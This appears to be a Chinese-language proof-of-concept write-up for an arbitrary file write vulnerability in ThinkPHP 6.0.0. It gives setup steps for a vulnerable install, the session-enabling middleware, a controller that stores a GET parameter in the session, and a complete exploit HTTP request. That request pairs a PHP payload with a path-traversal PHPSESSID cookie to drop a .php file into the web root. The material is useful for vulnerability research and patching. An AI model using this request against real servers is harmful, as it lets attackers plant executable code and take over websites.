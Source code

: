## thinkphp6 任意文件写入

# 环境

`composer create-project topthink/think tp60`

将 tp60/composer.json 文件的 "topthink/framework": "^6.0.0" 改成 6.0.0 版本，并执行如下命令。

`composer update`

`./think run --host=0.0.0.0 --port=8000`

# 前提
`app/middleware.php`  开启session功能

```
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
    // Session初始化
//     \think\middleware\SessionInit::class
    \think\middleware\SessionInit::class
];

```
`app/controller/Index.php` 

```
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {

        session('thinkphp', $_GET['test']);
        return 'Thinkphp 任意文件操作';
    }
}
```

# 利用
```
GET /index?test=<?php%20phpinfo();?>// HTTP/1.1
Host: pentest.com:8000
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
cookie:PHPSESSID=../../../../public/test12325.php
X-XSS-Protection:0
```
![1](15790801988890.jpg)

![2](15790802413948.jpg)
